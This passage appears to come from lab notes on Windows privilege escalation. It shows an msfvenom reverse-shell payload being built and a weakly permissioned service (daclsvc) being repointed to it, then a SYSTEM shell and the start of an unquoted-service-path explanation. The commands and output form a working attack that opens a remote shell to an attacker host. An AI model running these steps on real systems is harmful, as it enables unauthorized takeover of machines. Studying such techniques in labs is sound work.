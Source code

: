 > msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.164 LPORT=53 -f exe -o reverse.exe   
> sc config daclsvc binpath= "\\"C:\PrivEsc\tools\reverse.exe\\""   
```powershell
C:\PrivEsc\tools>sc config daclsvc binpath= "\"C:\PrivEsc\tools\reverse.exe\""
sc config daclsvc binpath= "\"C:\PrivEsc\tools\reverse.exe\""
[SC] ChangeServiceConfig SUCCESS

C:\PrivEsc\tools>sc qc daclsvc
sc qc daclsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\PrivEsc\tools\reverse.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : DACL Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```
3. Start/Restart service to exploit system:
> net start daclsvc
```powershell
C:\PrivEsc\tools>sc query daclsvc
sc query daclsvc

SERVICE_NAME: daclsvc 
        TYPE               : 10  WIN32_OWN_PROCESS  
        STATE              : 1  STOPPED 
        WIN32_EXIT_CODE    : 1077  (0x435)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

C:\PrivEsc\tools>net start daclsvc
net start daclsvc
[*] Command shell session 4 opened (192.168.1.164:53 -> 192.168.1.174:52340) at 2021-10-22 12:24:47 -0400
C:\PrivEsc\tools>sessions 4
[*] Backgrounding session 3...
[*] Starting interaction with 4...

C:\Windows\system32>whoami
whoami
nt authority\system
```

### Attacking Unquoted Service Path
This attack is possible because windows views the space between files as a possible argument and will check to verify that before continuing down the line.  A program with the path *"C:\Program Files\Some Dir\SomeProgram.exe"* will execute in the following order:   
>C:\Program.exe   
>C:\Program Files\Some.exe   
>C:\Program Files\Some Dir\SomeProgram.exe    
